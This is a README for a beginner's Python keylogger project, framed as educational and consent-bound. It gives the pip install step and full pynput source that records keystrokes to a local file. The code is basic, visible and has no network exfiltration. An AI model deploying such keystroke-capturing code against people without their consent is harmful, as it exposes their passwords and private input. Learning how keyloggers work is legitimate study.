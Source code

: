 # Basic Python Keylogger

---

This is a simple keylogger created in Python using `pynput`. The project was built in Visual Studio Code as part of my learning journey into cybersecurity and ethical hacking. It is intended **purely for educational purposes** — please do not use this unethically or without consent.

---

## What is a Keylogger?

A keylogger is a tool that records every keystroke made on a keyboard. It is often used to monitor user input and store that input into a file. While it can be used maliciously, it is also useful for educational demonstrations, user testing, and parental controls (when legally and ethically applied).

---

## Installation

Make sure Python is installed, then install the required package using the command below:

```bash
python -m pip install pynput
```
Then save the following code as keylogger.py and run it:
```python
# Import the keyboard listener module from pynput
from pynput import keyboard

# Define the function to run when a key is pressed
def keyPressed(key):
    print(str(key))  # Print the pressed key to the console

    # Open or create a text file to store the logged keys
    with open("keyfile.txt", 'a') as logKey:
        try:
            # Try to write the character to the file
            char = key.char
            logKey.write(char)
        except:
            # If it’s a special key it might not have a char attribute
            print("Error getting char")

# Only run this section if the script is executed directly (not imported)
if __name__ == "__main__": 
    # Create a listener that triggers keyPressed whenever a key is pressed
    listener = keyboard.Listener(on_press=keyPressed)
    
    # Start the listener in the background
    listener.start()
    
    # Keep the program running with user input to prevent it from closing
    input()
```
# Disclaimer
This project is for educational purposes only. Using keyloggers without explicit permission is illegal and unethical. Always ensure you have proper consent before running this or similar software on any device.




